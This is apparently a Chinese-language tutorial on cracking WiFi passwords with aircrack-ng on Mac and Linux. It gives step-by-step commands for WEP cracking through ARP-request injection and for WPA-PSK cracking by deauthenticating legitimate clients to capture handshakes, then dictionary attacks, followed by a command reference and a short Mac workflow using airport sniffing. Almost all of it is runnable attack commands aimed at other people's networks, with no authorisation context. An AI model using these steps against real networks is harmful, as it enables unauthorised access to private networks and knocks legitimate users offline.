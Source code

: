 # Mac下的WIFI破解

以前破wifi用的是CDLinux下的工具，最近换了mac研究了一下mac下的wifi破解工具，速度还行。不过现在到处都是免费wifi，还有好用的万能钥匙，这些技术用的都比较少了，写下来备用吧。


## 一、wep破解

### 1、载入无线网卡

```
ifconfig -a查看网卡
ifconfig wlan0 up加载网卡
iwconfig只查看无线网卡
```

### 2、激活无线网卡只monitor监听模式

```
airmon-ng start 上面查看的网卡名

monitor mode enabled on mon0便是已启动监听模式，监听模式下适配器名称变更为mon0。
```

### 3、探测无线网络，抓取无线数据包

```
airodump-ng mon0 //mon0为之前已经载入并激活监听模式的无线网卡

airodump-ng --ivs –w longas -c 6 wlan0 //抓取数据包
参数解释：
--ivs 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小；
-c 这里我们设置目标AP的工作频道，通过刚才的观察，我们要进行攻击测试的无线路由器工作频道为6；
-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，如下图10所示我这里就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longase.ivs，而是longas-01.ivs。
```

### 4、对目标AP使用ArpRequest注入攻击，加速数据包的获取

```
aireplay-ng -3 -b AP的mac -h 客户端的mac mon0 
参数解释：
-3 指采用ARPRequesr注入攻击模式；
-b 后跟AP的MAC地址，这里就是前面我们探测到的SSID为TPLINK的AP的MAC；
-h 后跟客户端的MAC地址，也就是我们前面探测到的有效无线客户端的MAC；
最后跟上无线网卡的名称，这里就是mon0啦。
在等待片刻之后，一旦成功截获到ARP请求报文，我们将会看到如下图13所示的大量ARP报文快速交互的情况出现。
此时回到airodump-ng 会看到packets栏的数字在飞速递增。
```

### 5、打开aircrack-ng，开始破解WEP
在抓取的无线数据报文达到了一定数量后，一般都是指IVs值达到2万以上时，就可以开始破解，若不能成功就等待数据报文的继续抓取然后多试几次。注意，此处不需要将进行注入攻击的Shell关闭，而是另外开一个Shell进行同步破解。输入命令如下：

```
aircrack-ng 捕获的ivs文件
```

## 二、wap-psk破解

### 1、升级Aircrack-ng
最好对airodump-ng的OUI库进行升级，先进入到Aircrack-ng的安装目录下，然后输入命令如下：

```
airodump-ng-oui-update
```

### 2、载入并激活无线网卡至monitor即监听模式
载入无线网卡的顺序及命令部分，依次输入下述命令

```
startx            进入到图形界面
ifconfig –a       查看无线网卡状态
ifconfig  wlan0  up     载入无线网卡驱动
airmon-ng  start  wlan0  激活网卡到monitor模式
```

### 3、探测无线网络，抓取无线数据包

```
airodump-ng -c 6 –w longas mon0
参数解释：
-c 这里我们设置目标AP的工作频道，通过观察，我们要进行攻击测试的无线路由器工作频道为6；
-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，这里我就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longas.cap，而是longas-01.cap。
mon0 为之前已经载入并激活监听模式的无线网卡。
```

### 4、进行Deauth攻击加速破解过程
和破解WEP时不同，这里为了获得破解所需的WPA-PSK握手验证的整个完整数据包，无线黑客们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，黑客们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。此处具体输入命令如下：

```
aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0 
参数解释：
-0 采用deauth攻击模式，后面跟上攻击次数，这里我设置为1，大家可以根据实际情况设置为10不等；
-a 后跟AP的MAC地址；
-c 后跟客户端的MAC地址；
```

### 5、开始破解WPA-PSK
在成功获取到无线WPA-PSK验证数据报文后，就可以开始破解，输入命令如下：

```
aircrack-ng -w dic 捕获的cap文件 
-w 后跟预先制作的字典，这里是BT4下默认携带的字典。
```

### 命令合集

```
aircrack-ng
主要用于WEP及WPA-PSK密码的恢复，只要airodump-ng收集到足够数量的数据包，aircrack-ng就可以自动检测数据包并判断是否可以破解
airmon-ng
用于改变无线网卡工作模式，以便其他工具的顺利使用
airodump-ng
用于捕获802.11数据报文，以便于aircrack-ng破解
aireplay-ng
在进行WEP及WPA-PSK密码恢复时，可以根据需要创建特殊的无线网络数据报文及流量
airserv-ng
可以将无线网卡连接至某一特定端口，为攻击时灵活调用做准备
airolib-ng
进行WPA Rainbow Table攻击时使用，用于建立特定数据库文件
airdecap-ng
用于解开处于加密状态的数据包
tools
其他用于辅助的工具，如airdriver-ng、packetforge-ng等
```

---

# 破解WIFI密码总结
这里我总结一下常用的流程，其实只有3个步骤。

### 获取搜索到的wifi

```
airport -s
SSID 是 wifi名称，RSSI 是信号强度，CHANNEL 是信道。
```

### 开始监听

```
sudo airport en0 sniff 1
en0是网卡   1是要抓包的信道
抓包.cap文件默认保存在/tmp  -w可以改变保存路径
```

### 解析

```
aircrack-ng -w 1.txt 1.cap
1.txt是字典暴  1.cap是抓包文件
可以看到cap包的内容，Encryption中（0 handshake）是抓包失败，（1 handshake）则是抓包成功。
记住成功的行数，Index number of target network ?后面输入行数，回车。
```

